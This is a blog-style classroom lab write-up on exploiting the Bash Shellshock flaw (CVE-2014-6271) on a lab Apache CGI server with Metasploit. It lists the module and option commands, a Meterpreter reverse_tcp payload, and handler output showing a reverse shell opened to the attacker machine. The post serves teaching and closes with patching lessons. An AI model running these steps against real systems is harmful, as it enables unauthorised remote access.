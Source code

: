 ```yaml
---
title: Unearthing Old Demons - Exploiting the Bash Shellshock Vulnerability 
date: 2025-05-05 
author: Bunleap Sorn
description: A practical walkthrough of identifying and exploiting the notorious Bash Shellshock vulnerability (CVE-2014-6271) using Metasploit, from initial reconnaissance to gaining a Meterpreter shell. 
tags: ["Ethical Hacking", "Cybersecurity", "Classroom Learning", "Shellshock", "Bash", "Vulnerability", "CVE-2014-6271", "Apache", "CGI", "Metasploit", "Reverse Shell", "Meterpreter"]
---
```

Hello, everyone! While the world of exploits often focuses on the latest zero-days, sometimes the most impactful lessons come from revisiting notorious vulnerabilities that once shook the internet. In a recent exercise, I had the chance to practically explore one such vulnerability: the **Bash Shellshock (CVE-2014-6271)**. This infamous flaw highlighted how deeply a seemingly simple shell vulnerability could impact vast numbers of systems, especially those running web servers.

### The Target: A Vulnerable Web Server

Our task began with reconnaissance, as always. A simple Nmap scan of our target machine (`192.168.65.84`) quickly revealed its network footprint:

![nmap scan](https://i.imgur.com/uDPZsTh.png)

The presence of an Apache web server on Port 80, especially an older version, immediately piqued my interest. Further investigation confirmed that the system was running a Linux kernel and an uptime, suggesting an active, potentially vulnerable host.

### Understanding Shellshock (CVE-2014-6271)

![machine screenshot](https://i.imgur.com/aBOiYA5.png)

The Shellshock vulnerability, discovered in 2014, is a critical flaw in the Bash Unix shell. It allows attackers to execute arbitrary commands by injecting malicious code through specially crafted environment variables. Many web servers, like Apache, use Bash to process CGI (Common Gateway Interface) scripts, making them prime targets for this vulnerability. If a CGI script uses Bash, an attacker could potentially inject commands via HTTP headers, leading to remote code execution.

### Exploitation with Metasploit: A Practical Demonstration

With the target identified and the potential vulnerability in mind, it was time to turn to **Metasploit Framework** to attempt exploitation. The specific module for this scenario was `exploit/multi/http/apache_mod_cgi_bash_env_exec`.

![metaploit config](https://i.imgur.com/iJudBjt.png)

Here’s the step-by-step process we followed within Metasploit:

1.  **Loading the Exploit Module:**
    ```bash
    msf6 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
    ```
2.  **Setting the Remote Host (Target IP):** We specified the IP address of our vulnerable Apache server.
    ```bash
    msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 192.168.65.84
    ```
3.  **Setting the Target URI:** We needed to identify a CGI-enabled path on the web server that would execute a Bash script. In this case, it was `/cgi-bin/status`.
    ```bash
    msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/status
    ```
4.  **Setting the Payload:** Our goal was to establish a reverse shell, so we chose the `linux/x86/meterpreter/reverse_tcp` payload. This payload would instruct the compromised target to connect back to our Kali Linux machine. We also ensured our `LHOST` (attacker IP) and `LPORT` (listening port) were correctly configured for the reverse connection.
    ```bash
    msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
    ```
5.  **Executing the Exploit:**
    ```bash
    msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit
    ```

### The Result: A Meterpreter Session

Upon executing the exploit, Metasploit initiated the attack. After a brief wait, the command stager completed, and critically, a **Meterpreter session** was opened\! This meant we had successfully gained interactive command-line access to the vulnerable Linux machine.

```bash
[*] Started reverse TCP handler on 192.168.65.30:4444
[*] Command Stager progress 100.00% done (1092/1092 bytes)
[*] Sending stage (1017704 bytes) to 192.168.65.84
meterpreter >
```

Gaining a Meterpreter shell is a significant step in penetration testing, offering powerful capabilities for post-exploitation activities.

![access](https://i.imgur.com/F9wOvYs.png)

### Learning from Shellshock

This hands-on exercise with Shellshock was a powerful demonstration of several key cybersecurity principles:

  * **The Criticality of Patching:** Shellshock was patched years ago, yet this exercise shows that unpatched systems, even if old, remain highly vulnerable. Prompt and consistent patching is non-negotiable.
  * **Web Server Security:** Web servers, especially those running CGI scripts, are often exposed to the internet and can be tempting targets. Proper configuration and regular updates are crucial.
  * **The Power of Metasploit:** Metasploit proved to be an invaluable tool for taking a known vulnerability and reliably demonstrating its exploitation in a controlled environment.

Understanding how an exploit like Shellshock works from the ground up, from identifying the target to gaining a shell, provides invaluable insight into the attacker's perspective, which is essential for building stronger defenses.